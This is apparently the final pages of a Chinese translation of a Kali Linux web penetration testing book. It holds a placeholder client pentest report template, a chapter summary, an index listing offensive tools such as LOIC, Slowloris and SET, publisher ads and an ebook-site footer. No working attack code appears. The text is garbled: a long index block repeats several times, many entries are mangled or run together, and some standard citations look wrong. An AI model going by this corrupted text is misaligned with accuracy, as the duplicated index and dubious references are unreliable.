服务版本详情：
| 分析 | 说明 | 严重程度 |
| --- | --- | --- |
| | | 中等 |

### 2.1.2 项目 2

重复
摘要描述
引用：http://www.weblink.com

## 2.2 Web 应用程序漏洞

| 风险描述 | 威胁等级 | 潜在企业损失 | 利用可能性 | 建议 |
| --- | --- | --- | --- | --- |
| 漏洞 A | 严重 | 潜在损失 | 被攻破的可能性 | 修复 |
| 漏洞 B | 严重 | 潜在损失 | 被攻破的可能性 | 修复 |
| 漏洞 C | 严重 | 潜在损失 | 被攻破的可能性 | 修复 |
| 漏洞 D | 中等 | 潜在损失 | 被攻破的可能性 | 修复 |
| 漏洞 E | 中等 | 潜在损失 | 被攻破的可能性 | 修复 |
| 漏洞 F | 低 | 潜在损失 | 被攻破的可能性 | 修复 |

| 风险描述 | 威胁等级 | 潜在企业损失 | 利用可能性 | 建议 |
| --- | --- | --- | --- | --- |
| 漏洞 G | 低 | 潜在损失 | 被攻破的可能性 | 修复 |
| 漏洞 H | 低 | 潜在损失 | 被攻破的可能性 | 修复 |

经验表明，集中精力解决本报告中概述的问题可以显著提高安全水平。大多数识别出的问题需要对良好实践的了解和投入，而不是高水平的技术技能。

## 附录

本节提供了观察结果和结果表中列出的已知漏洞的截图。

渗透测试报告

客户：

地址

联系信息

服务提供商：

地址

联系信息

渗透测试报告 – 客户

目录

执行摘要

结果摘要

攻击叙述

网络漏洞评估

Web 服务器漏洞评估

权限提升

维持对受损目标的访问

## 渗透测试执行报告

域权限提升

数据库内容利用

攻击者对客户交易的控制

结论

建议

风险评分

附录 A：漏洞详情与缓解

漏洞 A

漏洞 B

漏洞 C

漏洞 D

附录 B：架构系统更改列表

附录 C：关于攻击安全

## 执行摘要

服务提供商已受聘对客户的外部网络存在进行渗透测试。评估过程模拟了恶意攻击者对公司进行的针对攻击，目标如下：

- 识别远程攻击者是否能够渗透客户的防御
- 确定安全泄露对以下方面的影响：
  - 公司安全的完整性
  - 公司信息的机密性
  - 客户信息系统的内部基础设施和可用性

此次评估的结果将由客户用于指导其未来信息安全计划方向的决策。所有测试和操作都在受控条件下进行。

## 结果摘要

对客户提供的地址空间进行了网络侦察，并理解该范围的目标将被视为本次任务的范围。经确定，该公司保持着极少的外部存在，包括一个外部网站以及由服务提供商为客户进行侦察时识别的服务。

在审查客户主网站的安全性时，发现安装了一个存在漏洞的插件。该插件成功被利用，导致了管理员访问。此访问被用于获取对底层操作系统的交互访问，然后提升到 root 权限。

服务提供商能够利用管理员访问识别内部网络资源。内部系统中的一个漏洞被利用获取了本地系统访问，随后被提升到域管理员权限。这使得整个网络基础设施都处于攻击者的控制之下。

## 攻击叙述

<网络漏洞评估详情>

<Web 服务器漏洞评估详情>

<权限提升详情>

<维持对受损目标的访问详情>

<域权限提升详情>

<数据库内容利用详情>

## 结论

在外部渗透测试过程中，客户遭受了一系列连锁反应式的泄露，导致了会直接损害损害的状况。

渗透测试的具体目标表述如下：

- 识别远程攻击者是否可能渗透客户的防御
- 确定安全泄露对以下方面的影响：
    - 公司系统的完整性
    - 公司信息的机密性
    - 客户信息系统的内部基础设施和可用性

## 渗透测试执行报告

根据所提供的服务，确定远程攻击者能够渗透客户的防御。初始攻击向量被确定为关键的，因为可以通过自动扫描发现。利用此类漏洞的影响可能会瘫痪客户的网络和品牌。

## 建议

我们赞扬客户通过聘请我们的服务积极管理技术风险和网络安全。由于渗透测试揭示了对整体的影响，建议分配适当资源以确保修复工作及时完成。虽然应实施的完整清单超出了本次任务的范围，但仍有一些高层次的项目需要说明：

- 实施补丁管理计划：许多识别出的漏洞可以通过适当的补丁管理避免。建议使用 NIST SP 800-408 作为开发补丁管理安全策略的来源。这将减少运行漏洞系统的风险。
- 在所有系统中强制变更控制：常见的漏洞是由人为错误引起的。许多配置错误可以通过强大的变更控制过程避免。
- 利用因素认证和基于角色的访问控制：发现某些关键系统仅利用安全作为验证授权人员的方法。最佳实践是使用至少两种身份验证形式，并限制管理账户访问。
- 通过白名单、ACL、VLAN 等手段限制对关键系统的访问。最小权限设计将限制攻击者对受损资源造成的损害。请参考 NIST SP 800-27 RevA1 的指南，以实现 IT 系统的安全基础。

## 风险评分

服务提供商为客户识别的整体风险分为“关键”到“低”级，定义如下。服务提供商识别了三个关键漏洞，并用于访问客户的内部网络。

- 关键：对关键业务流程的直接威胁

- 高：对关键业务流程的间接威胁/对次要业务流程的威胁


- **Medium**：对业务流程构成间接/部分威胁
- **Low**：不存在直接威胁；漏洞可能与其他漏洞结合利用

根据测试系统中发现的最高风险等级，被测试系统的当前风险水平在测试期间为“严重（Critical）”，共识别出三个（3）严重漏洞、两个（2）中级漏洞和两个（2）低级漏洞。

附录：漏洞详情及缓解措施

<Vulnerability A信息>

## 总结

本章通过为渗透测试服务后开发专业客户交付报告提供测试指导，结束了本书。攻入系统和其他实操性的技术工作很有趣；然而，详细的报告和稳健的业务实践才是盈利的关键。专业服务实践成功的关键在于能够成为其相关领域受信赖的顾问。对于安全需求而言，这意味着帮助客户满足合规性法规、减少漏洞带来的风险，并改进识别威胁的方法。

涵盖的首要主题是合规性，因为这是展示采购服务价值的常用方法。作为客户，当我们发现存在无法满足强制指令的风险或需要对近期事件做出反应时，就会寻找预算；并知道最流行的标准将提高你对客户的重要性。接下来，我们查看了不同的服务收费方法，以及在项目报价时需要注意的事项。之后，我们拆解了交付文档的不同组成部分，为向客户提供结果提供了最佳实践。我们添加了最后一个章节，介绍了 Kali Linux 中提供的某些报告工具，这些工具可以帮助为客户交付物生成信息。

我们非常喜欢编写这本书，希望它对你的 Web应用程序渗透目标有所帮助。感谢阅读。

## 索引

## 符号

- -t option 55

## A

- - acccheck 209
- 活动报告 296
- Alerts标签页，Owasp-Zap 92
- 预期年化损失 (ALE) 15
- 年均发生率 (ARO) 15
- 附录 294
- 应用交付控制器 (ADC) 设备 264
- 应用程序层攻击 236
- apt-get update 命令 212
- arpspoof 193, 194
- 资产价值 (AV) 15
- 场景，使用 Scapy 238, 240
- 资产设置标签页，WebSlayer 314
- 身份验证 175
- Autopsy 271-274
- BIOS（基本输入输出系统）密码 173
- 黑盒测试 9
- 浏览器漏洞利用框架 (BeEF)。参见 BeEF 暴力攻击，约 107
- DirBuster 110-112
- Hydra 107
- WebSlayer 113-119
- bulk_extractor 276
- BURP Proxy 约 218-221
- Burp Spider 221
- 爬虫功能，使用 222-225
- Burp Spider 221

## B

- - BeEF 212
- apt-get update 命令 212
- hook.js 214
- 安装 212
- 启动 212
- URL 212
- BeEF 系统 41
- Binwalk 274
- - Cisco 网络基础专业人员 (NFP) 254
- CISSP 约 15, 175
- 因素 175
- 点击劫持 (Clickjacking) 约 177
- URL，用于下载工具 226
- 点击劫持防御 264
- SSL 剥离防御 262
- 客户端攻击 129
- 测试 252
- 防御信息系统
- 客户端渗透测试报告 296
- 代理局 (DISA) 254
- 克隆 132
- 防御，测试
- 克隆工具 259
- 关于 252
- CmosPwd 173
- 基线安全 253
- 通用访问卡 (CAC) 176
- 密码，策略 256, 255
- 通用日志格式 (CLF) 208
- 补丁管理技术实施指南
- 合规性
- 安全 (STIG) 254
- 关于 278
- 目标空间定义 12
- 行业合规 278, 279
- 目标系统定义 11
- 机密性 283
- 拒绝服务防御 262
- Cookie Cadger
- 拒绝服务 (DoS)
- 关于 184-186
- 国防部 (DOD) 254
- 识别的会话 187
- 字典攻击 152
- 会话请求信息 187
- dictsat
- Cookie 防御 263
- 关于 172
- Dig (域名信息查询工具) 54
- 数字取证 265, 266
- 会话劫持攻击，限制性 179
- DirBuster
- 窃取 179
- 关于 110-112
- 报告按钮 113
- Cookies Manager+ 183
- 分布式拒绝服务，参见 DDoS
- 封面 283
- DNS
- 爬虫标签页，Proxy 84
- 目标，识别 55, 57
- creddump 174
- DNS 245, 246
- 凭据 299
- 关键基础设施保护 (CIP) 280
- 技术 54, 55
- 跨站脚本，参见 XSS
- 域名系统 (DNS) 254
- Crunch 15-10
- DoS.
- 关于 235
- 攻击，类别 236
- 应用程序层 236
- 协议攻击 236
- 会话耗尽 236
- 基于卷的攻击 236
- 点击劫持防御 263, 264
- Driftnet 198
- 拒绝服务防御 262
- dsniff
- 中间人防御 259
- 开始 195

## D

- - 电子数据收集、分析与检索 (EDGAR) 40
- get 105-107
- Ettercap
- 关于 196
- 执行摘要 285, 286
- 目标 19, 20
- 工具 190
- 漏洞利用工具 30
- Exploit 标签页，w3af 104
- 伪 DNS 245
- fdisk -l
- 联邦监管委员会 (FERC) 280
- 联邦信息处理标准 (FIPS) 279
- 联邦信息安全法 (FISMA) 280
- Ferret 192
- Fierce 脚本
- 命令，运行 322
- 文件系统分析
- 使用 Kali 267-269
- Fimap
- 使用 234
- findmyhash 173
- Firefox 插件
- 关于 180
- arppo 193, 194
- Cookie Dodger 182
- Cookie Inject 182
- Cookies Manager+ 183
- dsniff 193-195
- Ettercap 196-198
- Firesheep 180
- Greasmonkey 182
- Hamster 190-192
- 中间人攻击 193
- Web 开发者 180
- Wireshark 187-190
- Firesheep 180
- 标记
- 定义 12
- FOCA
- 关于 66-72
- 目标指纹
- 建立 33
- 取证 31
- 取证启动 266, 267
- 取证工具 271
- Autopsy 271-274
- Binwalk 274
- bulk_extractor 276
- chkrootkit 271
- Foremost 275
- Pasco 275
- pdf-parser 275
- Scalpel 276
- FoxProxy
- 代理，添加 217
- fping 命令 53

## G

- - GHDB
- 关于 45
- 访问 46
- 主屏幕 48
- 查询，选择 76
- URL 46
- GIAC 渗透测试员 (GPEN) 287
- 词表 294
- Google 攻击 44, 45
- Google Hacking Database。参见 GHDB
- 黑盒 10
- Greasemonkey 182
- 黑客
- 密码破解方法 192

## H

- - Hamster 190-192
- 硬件攻击 31
- hashcat 159
- Hash-identifier 170
- 哈希处理 152
- 健康保险流通与责任法 (HIPAA) 253, 279
- hexint 209
- 主机扫描 关于 144
- 使用 Ness 145
- Hosts 标签页，NMap 64
- Track 关于 49, 257, 258
- 命令，显示 51, 52
- 目录，选择 50
- 开始 50 使用 49
- 混合 152
- Hydra 107-110

## J

- - Java Applet 攻击 134
- 职位发布 41
- John the Ripper 关于 119
- 打开 120
- 操作 120
- 使用，密码文件 127

## K

- - Kali
- 密码破解工具 155
- Kali Linux 关于 17, 21 以及虚拟机镜像 299
- DNSCHEF 246
- 漏洞利用 19
- 安装，需要 22
- 安装 22-28
- Inundator 248
- 维持立足点，目标 20
- 物理地址扩展 (PAE) 21
- 权限提升 19, 20
- 侦察 17
- 报告 300
- 从外部媒体运行 21
- Sniff Joke 246
- 系统设置 21
- 目标，评估 18
- TCPReplay 248
- 工具set 29-31
- URL，用于下载 21

- Kali Linux，工具
- 漏洞利用工具 30
- 取证 31
- 信息收集 30
- 维持访问工具 30
- 密码攻击 30

## I

- ICMP 侦察技术 52, 53
- ifconfig 命令 122
- 行业合规基线 279
- 指南 279
- 标准 279
- 行业标准 关于 279, 280

- 信息收集阶段 282
- 信息收集 17, 30, 34
- 安装 Kali Linux 22-27
- Kali Linux，要求 22
- 国际标准组织 (ISO) 253, 287
- 入侵检测/防御 (IDS/IPS) 305
- Inundator 248
- 使用 iptables，用于设置端口重定向 124-126


## 报告工具 31
- 逆向工程 30
- 嗅探与欺骗 30
- 压力测试 31
- 系统服务 31
- 漏洞分析 30
- Web 应用程序 30
- 无线攻击 30
- KeepNote 301

# L
- Linux 密码 155
- log 标签, ProxyStrike 84
- log 窗口, w3af 104
- LOIC
  - 关于 242
  - 安装 243
  - 启动 244
  - 使用 244
- 低轨道炮 (Low Orbit Cannon)。参阅 LOIC

# M
- MagicTree 301
- 维持立足点
  - 关于 20
  - 目标 20
- 维持访问工具 20, 30
- Maltego
  - 关于 57
  - 开始 57
  - 使用 58
- Maltego caseFile 301
- 间人攻击 (in-the-middle)
  - 关于 121
  - 防御 259, 260
  - 间人攻击 193
- 媒体访问控制安全 (MACsec) 261
- Metasploit
  - 关于 96-102
  - URL 98
  - meterpreter 132
- MITM。参阅 man-in-the-middle
- MITM Proxy 143, 144
- MLA 277

# N
- 美国国家标准与技术研究院 (NIST) 280
- NAT 选项 135
- Nessus
  - 激活码, URL 145
  - 下载,  Debian 145
  - 主机扫描 145
  - 安装, 在 Kali 上 145, 146
  - 使用 146-150
- Nessus HomeFeed 145
- Nessus ProfessionalFeed 145
- Netcat, 106, 107
- 网络映射器 (Network Mapper)。参阅 NMap
- 网络服务器 73
- 网络拓扑图, NMap 63
- 下一代入侵防御系统 (NGIPS) 216
- NMap
  - 关于 59, 62
  - 主机 64
  - 网络拓扑标签 63
  - 新配置文件, 创建 61
  - 新配置文件或命令, 选择 61
  - Ping 63
  - 保存更改按钮 63
  - 扫描窗口 65
  - URL 59
  - 使用 59
- Zenmap 65, 66
- Zenmap, 打开 60
- 北美电力可靠性协会 (NERC) 280

# O
- Ophcrack 165-167
- OTP (一次性口令) 261
- Owasp-Zap
  - 关于 89
  - 警报标签 92
  - 证书颁发机构 74
  - 生成 90
  - 生成按钮 89
  - HTML 报告 94
  - 市场 94
  - 报告标签 94
  - 站点窗口 91

# P
- Pasco 275
- 密码攻击
  - 关于 30
  - 工具 20
  - 密码破解工具, Kali
    - 关于 155
    - chntpw 161-164
    - Crunch 166, 169
    - hashcat 159
    - Johnny 156, 158
    - ocDhashcat 165, 166
    - Ophrack 165, 167
    - sandump2 161
  - 密码
    - 关于 119
    - 破解 151
  - 黑客破解, 152
    - Linux 密码 155
  - 策略 256, 257
  - Windows 密码 153
- Patator 210
- 补丁管理 254, 255
- 补丁系统 292
- Paylander 生成器, WebSlayer 114
- 支付应用数据安全标准 (PA-DSS) 280
- 支付行业身份数据安全标准 (PCI DSS) 253, 280
- pdf-parser 275
- 渗透测试报告 277, 278
- 渗透测试
  - 关于 7, 8, 16
  - 黑盒测试 9
  - 灰盒 110
  - web 应用程序 8, 9
  - 白盒测试 9, 10
  - 工作, 范围 11
- 个人身份验证 (PIV) 176
- phrasedrescher 173
- 物理地址扩展 (PAE) 221
- ping 命令 52
- NMap, Ping 标签 63
- ProxyStrike, 插件标签 84
- 端口转发选项 135
- 端口重定向
  - 设置, 使用 Iptables 124-126
- 权限提升
  - 关于 19
  - 目标 20
  - 专业服务 280, 281
  - 项目评审 282
- 协议攻击 236
- Vega, 代理部分 88
- ProxyStrike
  - 关于 81, 82
  - 爬虫标签 84
  - log 标签 84
  - 插件标签 84
  - URL 84
  - 使用 82
  - Vega, 代理标签 86
# R
- RainbowCrack 152
- RainbowCrack (rcrack_mt) 172
- 彩虹表 152
- 真实攻击者 152
- 侦察
  - 关于 17, 18, 33
  - 公司网站 35
  - DNS 侦察 53, 55
  - DNS 目标收集, 分析与检索 (EDGAR) 40
  - FOCA 66-72
  - Google 攻击 44, 45
  - Google 黑客数据库 (GHDB) 45-48
  - HTrack 49-52
  - ICMP 侦察 52, 53
  - 帖子 41
  - 位置 42
  - Maltego 57, 58
  - 网络, 侦察 48, 49
  - Nmap 59-62
  - 区域注册机构 (RIRs) 39
  - 研究 34
  - Shodan 42
  - 社交媒体 资源 41
  - 信任 41
  - web 历史 36-38
  - 区域注册机构。参阅 RIRs
- 报告
  - 文档 282
  - 执行报告 285, 286
  - 格式 282
  - 保存更改按钮 63
  - SCADA 系统 42
  - Scalpel 276
  - Vega, 扫描标签 86
- Scapy
  - 关于 238
  - 攻击场景 238-240
  - 安全套层 (SSL) 协议 236
  - 安全审计 133
  - 安全技术实施。参阅 STIG
  - DirBuster, 报告 113
  - 格式
  - 附录 294
  - 保密性声明 283
  - 页面 283
  - 文档控制 284
  - 执行摘要 285, 286
  - 发现 289
  - 方法论 286, 287
  - 网络, 连接 292, 293
  - 网络, 建议 292, 293
  - 详细程序 288
  - 时间线 284
- 敏感信息设施 (SCIF) 283
- 服务器 73
- 服务端攻击 74
- 服务命令 98
- 会话耗尽 236
- 会话管理
  - 关于 177
  - 漏洞 290, 292
- 报告工具 31
- Kali, 报告工具
- KeepNote 301
- MagicTree 301
- Maltego casefile 301
- 示例报告 302-310
- SET
  - 关于 130, 131, 230, 231
  - 伪邮件发送 141, 142
  - mpreter 139
  - 设置 131, 132
  - Site Cloner 140
  - 模板, 选择 232
  - 用户, 输入 233
  - 使用攻击 132-134
  - 使用, 克隆 132-134
- SET 密码采集。参阅 SET
- Shodan 42
- 会话劫持 190
- Siege 247
- 单次损失预期。SLE
- Site Cloner 140
- Owasp-Zap, 站点窗口 91
- Skipfish
  - 关于 78, 80
  - 命令选项 78
- Owasp-Zap, 报告标签 94
- 报价请求 (RFP) 关于 281
- w3af, 结果标签 104
- 逆向工程 30
- 评审阶段 282
- RiRs 39
- Robots.txt 文件 35
- 盐盐 152
- dumpump 161
- 萨班斯-奥克斯法 (SOX) 280
- SLE 15
- Slowloris 关于 241
- 运行 241
- 下载 URL 241
- 嗅探与欺骗 30
- SniffJoke 246
- 社会工程攻击 134
- 社会工程工具。参阅 SET
- 社交媒体 41
- SOW 284, 295
- 活动报告 296
- 客户端渗透测试报告 296
- 执行报告 295
- 执行报告, 示例 295
- 主机报告 296
- 主机报告 296
- 材料 298, 299
- 外部渗透测试, 296
- 用户报告 296
- 漏洞报告 296
- SQL
  - 关于 200, 201
  - 注入 202, 203
  - sqlmap 203, 204
  - sqlmap 203, 204
- SSL 剥离 122
- SSL 剥离 261, 262
- 安全技术实施。参阅 STIG
- 压力测试 31
- 发现 289
- 系统服务 31
- web 应用程序 8, 9
- web 历史 36-38
- 区域注册机构。参阅 RIRs
- 执行 285, 286
- 时间线 284
- 安全套层 (SSL) 协议 236
- 安全审计 133
- 报告按钮, DirBuster 113
- 报告格式
- 附录 294
- 保密性声明 283
- 页面 283
- 文档控制 284
- 执行摘要 285, 286
- 发现 289
- 方法论 286, 287
- 网络, 连接 292, 293
- 网络, 建议 292, 293
- 详细程序 288
- 时间线 284
- 敏感信息设施 (SCIF) 283
- 服务器 73
- 服务端攻击 74
- 服务命令 98
- 会话耗尽 236
- 会话管理
  - 关于 177
  - 漏洞 290, 292
- 报告工具 31
- Kali, 报告工具
- KeepNote 301
- MagicTree 301
- Maltego casefile 301
- 示例报告 302-310
- SET
  - 关于 130, 131, 230, 231
  - 伪邮件发送 141, 142
  - mpreter 139
  - 设置 131, 132
  - Site Cloner 140
  - 模板, 选择 232
  - 用户, 输入 233
  - 使用攻击 132-134
  - 使用, 克隆 132-134
- SET 密码采集。参阅 SET
- Shodan 42
- 会话劫持 190
- Siege 247
- 单次损失预期。SLE
- Site Cloner 140
- Owasp-Zap, 站点窗口 91
- Skipfish
  - 关于 78, 80
  - 命令选项 78
- Owasp-Zap, 报告标签 94
- 报价请求 (RFP) 关于 281
- w3af, 结果标签 104
- 逆向工程 30
- 评审阶段 282
- RiRs 39
- Robots.txt 文件 35
- 盐盐 152
- dumpump 161
- 萨班斯-奥克斯法 (SOX) 280
- SLE 15
- Slowloris 关于 241
- 运行 241
- 下载 URL 241
- 嗅探与欺骗 30
- SniffJoke 246
- 社会工程攻击 134
- 社会工程工具。参阅 SET
- 社交媒体 41
- SOW 284, 295
- 活动报告 296
- 客户端渗透测试报告 296
- 执行报告 295
- 执行报告, 示例 295
- 主机报告 296
- 主机报告 296
- 材料 298, 299
- 外部渗透测试, 296
- 用户报告 296
- 漏洞报告 296
- SQL
  - 关于 200, 201
  - 注入 202, 203
  - sqlmap 203, 204
  - sqlmap 203, 204
- SSL 剥离 122
- SSL 剥离 261, 262
- 安全技术实施。参阅 STIG
- 压力测试 31
- 发现 289
- 系统服务 31
- web 应用程序 8, 9
- web 历史 36-38
- 区域注册机构。参阅 RIRs
- 执行 285, 286
- 时间线 284
- 安全套层 (SSL) 协议 236
- 安全审计 133
- 报告按钮, DirBuster 113
- 报告格式
- 附录 294
- 保密性声明 283
- 页面 283
- 文档控制 284
- 执行摘要 285, 286
- 发现 289
- 方法论 286, 287
- 网络, 连接 292, 293
- 网络, 建议 292, 293
- 详细程序 288
- 时间线 284
- 敏感信息设施 (SCIF) 283
- 服务器 73
- 服务端攻击 74
- 服务命令 98
- 会话耗尽 236
- 会话管理
  - 关于 177
  - 漏洞 290, 292
- 报告工具 31
- Kali, 报告工具
- KeepNote 301
- MagicTree 301
- Maltego casefile 301
- 示例报告 302-310
- SET
  - 关于 130, 131, 230, 231
  - 伪邮件发送 141, 142
  - mpreter 139
  - 设置 131, 132
  - Site Cloner 140
  - 模板, 选择 232
  - 用户, 输入 233
  - 使用攻击 132-134
  - 使用, 克隆 132-134
- SET 密码采集。参阅 SET
- Shodan 42
- 会话劫持 190
- Siege 247
- 单次损失预期。SLE
- Site Cloner 140
- Owasp-Zap, 站点窗口 91
- Skipfish
  - 关于 78, 80
  - 命令选项 78
- Owasp-Zap, 报告标签 94
- 报价请求 (RFP) 关于 281
- w3af, 结果标签 104
- 逆向工程 30
- 评审阶段 282
- RiRs 39
- Robots.txt 文件 35
- 盐盐 152
- dumpump 161
- 萨班斯-奥克斯法 (SOX) 280
- SLE 15
- Slowloris 关于 241
- 运行 241
- 下载 URL 241
- 嗅探与欺骗 30
- SniffJoke 246
- 社会工程攻击 134
- 社会工程工具。参阅 SET
- 社交媒体 41
- SOW 284, 295
- 活动报告 296
- 客户端渗透测试报告 296
- 执行报告 295
- 执行报告, 示例 295
- 主机报告 296
- 主机报告 296
- 材料 298, 299
- 外部渗透测试, 296
- 用户报告 296
- 漏洞报告 296
- SQL
  - 关于 200, 201
  - 注入 202, 203
  - sqlmap 203, 204
  - sqlmap 203, 204
- SSL 剥离 122
- SSL 剥离 261, 262
- 安全技术实施。参阅 STIG
- 压力测试 31
- 发现 289
- 系统服务 31
- web 应用程序 8, 9
- web 历史 36-38
- 区域注册机构。参阅 RIRs
- 执行 285, 286
- 时间线 284
- 安全套层 (SSL) 协议 236
- 安全审计 133
- 报告按钮, DirBuster 113
- 报告格式
- 附录 294
- 保密性声明 283
- 页面 283
- 文档控制 284
- 执行摘要 285, 286
- 发现 289
- 方法论 286, 287
- 网络, 连接 292, 293
- 网络, 建议 292, 293
- 详细程序 288
- 时间线 284
- 敏感信息设施 (SCIF) 283
- 服务器 73
- 服务端攻击 74
- 服务命令 98
- 会话耗尽 236
- 会话管理
  - 关于 177
  - 漏洞 290, 292
- 报告工具 31
- Kali, 报告工具
- KeepNote 301
- MagicTree 301
- Maltego casefile 301
- 示例报告 302-310
- SET
  - 关于 130, 131, 230, 231
  - 伪邮件发送 141, 142
  - mpreter 139
  - 设置 131, 132
  - Site Cloner 140
  - 模板, 选择 232
  - 用户, 输入 233
  - 使用攻击 132-134
  - 使用, 克隆 132-134
- SET 密码采集。参阅 SET
- Shodan 42
- 会话劫持 190
- Siege 247
- 单次损失预期。SLE
- Site Cloner 140
- Owasp-Zap, 站点窗口 91
- Skipfish
  - 关于 78, 80
  - 命令选项 78
- Owasp-Zap, 报告标签 94
- 报价请求 (RFP) 关于 281
- w3af, 结果标签 104
- 逆向工程 30
- 评审阶段 282
- RiRs 39
- Robots.txt 文件 35
- 盐盐 152
- dumpump 161
- 萨班斯-奥克斯法 (SOX) 280
- SLE 15
- Slowloris 关于 241
- 运行 241
- 下载 URL 241
- 嗅探与欺骗 30
- SniffJoke 246
- 社会工程攻击 134
- 社会工程工具。参阅 SET
- 社交媒体 41
- SOW 284, 295
- 活动报告 296
- 客户端渗透测试报告 296
- 执行报告 295
- 执行报告, 示例 295
- 主机报告 296
- 主机报告 296
- 材料 298, 299
- 外部渗透测试, 296
- 用户报告 296
- 漏洞报告 296
- SQL
  - 关于 200, 201
  - 注入 202, 203
  - sqlmap 203, 204
  - sqlmap 203, 204
- SSL 剥离 122
- SSL 剥离 261, 262
- 安全技术实施。参阅 STIG
- 压力测试 31
- 发现 289
- 系统服务 31
- web 应用程序 8, 9
- web 历史 36-38
- 区域注册机构。参阅 RIRs
- 执行 285, 286
- 时间线 284
- 安全套层 (SSL) 协议 236
- 安全审计 133
- 报告按钮, DirBuster 113
- 报告格式
- 附录 294
- 保密性声明 283
- 页面 283
- 文档控制 284
- 执行摘要 285, 286
- 发现 289
- 方法论 286, 287
- 网络, 连接 292, 293
- 网络, 建议 292, 293
- 详细程序 288
- 时间线 284
- 敏感信息设施 (SCIF) 283
- 服务器 73
- 服务端攻击 74
- 服务命令 98
- 会话耗尽 236
- 会话管理
  - 关于 177
  - 漏洞 290, 292
- 报告工具 31
- Kali, 报告工具
- KeepNote 301
- MagicTree 301
- Maltego casefile 301
- 示例报告 302-310
- SET
  - 关于 130, 131, 230, 231
  - 伪邮件发送 141, 142
  - mpreter 139
  - 设置 131, 132
  - Site Cloner 140
  - 模板, 选择 232
  - 用户, 输入 233
  - 使用攻击 132-134
  - 使用, 克隆 132-134
- SET 密码采集。参阅 SET
- Shodan 42
- 会话劫持 190
- Siege 247
- 单次损失预期。SLE
- Site Cloner 140
- Owasp-Zap, 站点窗口 91
- Skipfish
  - 关于 78, 80
  - 命令选项 78
- Owasp-Zap, 报告标签 94
- 报价请求 (RFP) 关于 281
- w3af, 结果标签 104
- 逆向工程 30
- 评审阶段 282
- RiRs 39
- Robots.txt 文件 35
- 盐盐 152
- dumpump 161
- 萨班斯-奥克斯法 (SOX) 280
- SLE 15
- Slowloris 关于 241
- 运行 241
- 下载 URL 241
- 嗅探与欺骗 30
- SniffJoke 246
- 社会工程攻击 134
- 社会工程工具。参阅 SET
- 社交媒体 41
- SOW 284, 295
- 活动报告 296
- 客户端渗透测试报告 296
- 执行报告 295
- 执行报告, 示例 295
- 主机报告 296
- 主机报告 296
- 材料 298, 299
- 外部渗透测试, 296
- 用户报告 296
- 漏洞报告 296
-# X
- XSS
  - 关于 204
  - Cookie 窃取 206, 207
  - 测试 205
# Z
- ZAP
  - 关于 225, 226
  - SEED 文件 228, 229
  - 设置, 使用 Firefox 226, 229
  - Zapproxy。参阅 Owasp-Zap


# BackTrack - 无线网络安全测试

ISBN: 978-1-78216-406-7 | 平装本：108 页

通过本分步指南，保护你的无线网络免受攻击、黑客入侵和入侵者的侵害

- 1. 让你的无线网络无坚不摧
- 2. 轻松保护你的网络免受入侵者侵害
- 3. 查看黑客是如何操作的并学习如何防御自己

# BackTrack 5 实战教程

ISBN: 978-1-84951-738-6 | 平装本：296 页

包含 80 多个配方，帮助你执行 BackTrack 5 中许多最佳且鲜为人知的渗透测试技巧

- 1. 学习使用 BackTrack 5 进行渗透测试
- 2. 近近 100 个配方，教授渗透测试原理并建立对 BackTrack 工具的认知
- 3. 为 BackTrack 的许多热门及冷门工具提供详细的逐步操作说明

请访问 www.PacktPub.com 了解有关我们书籍的信息

# BackTrack 5 无线渗透测试初学者指南

ISBN: 978-1-84951-558-0 | 平装本：220 页

使用 BackTrack 5 掌握前沿的测试技术

- 1. 使用最新版本的 BackTrack 学习无线渗透测试
- 2. 第一本且唯一一本涵盖使用 BackTrack 进行无线测试的书籍
- 3. 通过逐步的实操课程和丰富的插图解释概念
- 4. 由 Vivek Ramachandran 编写——世界闻名的科学研究员、布道者以及“咖啡拿铁攻击”的发现者

# Metasploit 渗透测试实战教程

ISBN: 978-1-84951-742-3 | 平装本：268 页

包含 70 多个配方，帮助掌握最广泛使用的渗透测试框架

- 1. 80 多个配方/实操任务，将读者的知识从初学者提升到高级水平
- 2. 特别关注最新的操作系统、漏洞和渗透测试技术
- 3. 对基于 Metasploit 框架的第三方工具进行详细分析，以增强渗透测试体验

请访问 www.PacktPub.com 了解有关我们书籍的信息

# 感谢

想看更多书吗？

我们希望你从本电子书中中学到了你预期的知识。在 www.PlentyofeBooks.net 寻找更多类似的实用书籍。

学习更多，让你的父母为你自豪 :)
顺颂商祺
www.PlentyofeBooks.net

